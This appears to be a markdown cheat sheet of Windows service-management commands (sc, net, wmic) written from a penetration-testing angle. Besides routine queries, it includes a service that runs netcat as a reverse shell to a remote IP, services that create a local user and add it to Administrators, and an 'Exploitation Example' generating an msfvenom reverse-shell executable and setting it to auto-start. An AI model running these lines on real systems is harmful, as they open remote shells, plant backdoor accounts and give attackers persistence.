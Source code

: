 # Service-Controller-Utility-Commands

## Querying Services

#### Display Information About a Specified Service
```powershell
sc query
```

#### Display Extended Information About a Service
```powershell
sc queryex type= service
```

#### Display Services of Type 'Service'
```powershell
sc query type= service
```

#### Find Specific Service States
```powershell
sc query find "STATE"
```

#### Find a Specific Service by Name
```powershell
sc query | find "Telnet"
```

#### Query a Specific Service
```powershell
sc query LanmanServer
```

---

# Service Configuration

#### Display the Configuration of a Service
```powershell
sc qc Audiosrv
```

#### Stop a Service
```powershell
sc stop Audiosrv
```

#### Start a Service
```powershell
sc start Audiosrv
```

#### Pause a Service
```powershell
sc pause Audiosrv
```

#### Resume a Paused Service
```powershell
sc continue Audiosrv
```

#### Configure Service Startup and Login Accounts
```powershell
sc config Audiosrv
```

---

# Creating and Managing Services

#### Create a New Service
```powershell
sc create nc binPath= "C:\Windows\System32\nc64.exe"
```

#### Query the Configuration of a Created Service
```powershell
sc qc nc
```

#### Query the Status of a Created Service
```powershell
sc query nc
```

#### Start the Created Service
```powershell
sc start nc
```

#### Delete a Service
```powershell
sc delete nc
```

#### Configure a Service to Run a Specific Command
```powershell
sc config nc binPath= "C:\Windows\nc64.exe 192.168.1.7 4444 -e cmd.exe"
```

#### Create a Service to Send ICMP Packets
```powershell
sc create pingme binPath= "ping 192.168.1.6"
```

#### Start the ICMP Service
```powershell
sc start pingme
```

#### Create a User Creation Service
```powershell
sc create useradd binPath="net user u1 @rmour123 /add"
```

#### Start the User Creation Service
```powershell
sc start useradd
```

#### Configure a Service to Add a User to Administrators Group
```powershell
sc config useradd binpath= "net localgroup administrators u1 /add"
```

#### Start the Privilege Elevation Service
```powershell
sc start useradd
```

---

# Exploitation Example

#### Generate a Reverse Shell Executable Using msfvenom
```powershell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.6 LPORT=4455 -f exe > shell.exe
```

#### Configure a Service to Execute the Shell
```powershell
sc create msfvenom_shell binPath= "C:\Windows\Temp\shell.exe"
```

#### Change a Service's Startup Type
```powershell
sc config msfvenom_shell start=auto
```
- **auto** - Automatic Startup
- **demand** - Manual Startup
- **disabled** - Disabled

#### Restart the System Immediately
```powershell
shutdown /r /t 0 /f
```

---

# Service Management Using `net`

#### Start a Service Using `net`
```powershell
net start TlntSvr
```

#### Stop a Service Using `net`
```powershell
net stop TlntSvr
```

#### Pause a Service Using `net`
```powershell
net pause TlntSvr
```

#### Resume a Paused Service Using `net`
```powershell
net continue TlntSvr
```

---

# Using `wmic` to Manage Services

#### List All Services with Details
```powershell
wmic service get name, displayname, pathname, startmode
```

#### List All Auto-Start Services
```powershell
wmic service get name, displayname, pathname, startmode | findstr /i "auto"
```

#### List All Auto-Start Services Excluding Those in C:\Windows
```powershell
wmic service get name, displayname, pathname, startmode | findstr /i "auto" | findstr /i/v "c:\windows"
```

---

# Additional Resources

#### ServiceSecurityEditor

ServiceSecurityEditor is used to maintain and manage services, allowing manual configuration of permissions for users.

[Download ServiceSecurityEditor](https://www.coretechnologies.com/products/ServiceSecurityEditor/)

#### After Download
1. Run the application.
2. Select the service you want to configure.
3. Click "Open".
4. Add a user.
5. Select the user and set the required permissions.
6. Click "Apply" and then "OK".
